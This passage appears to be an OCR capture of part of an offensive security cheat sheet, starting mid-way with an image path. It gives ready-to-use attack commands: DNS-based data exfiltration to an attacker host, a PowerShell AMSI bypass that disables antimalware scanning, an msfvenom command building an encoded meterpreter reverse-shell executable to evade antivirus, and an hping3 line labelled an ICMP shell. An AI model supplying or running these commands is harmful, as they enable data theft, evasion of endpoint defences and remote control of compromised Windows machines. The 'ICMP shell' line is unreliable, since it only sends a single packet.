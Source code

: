 ```bash
dig @attacker-ip -t txt "data-to-exfiltrate"  
```

* * *

## 13\. Bypassing Antivirus & Windows Defender

### PowerShell AMSI Bypass

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').SetValue($null, $true)  
```

### Obfuscating Payloads with MSFVenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe  
```

* * *

## 14\. Evading Network Monitoring & Firewalls

### ICMP Shell (When TCP/UDP Are Blocked)

```bash
hping3 -1 --icmp --data 1000 -c 1 <attacker-IP>  
```
